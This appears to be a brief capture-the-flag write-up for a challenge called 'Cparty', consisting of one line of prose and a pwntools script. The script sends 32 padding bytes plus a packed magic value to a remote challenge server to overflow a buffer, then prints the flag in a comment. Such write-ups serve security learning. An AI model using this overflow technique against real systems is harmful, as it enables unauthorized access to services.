 #Cparty

![](/figures/1.png)



To start I connect to the server to see what it asks me :



```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *


p = remote("89.38.210.128", 31338)


p.send("A"*32+p32(0xc0defefe))

p.recv(1024)

p.interactive()

#timctf{d0nt_cr4sh_th3_p4rty_b3_th3_p4rty}
```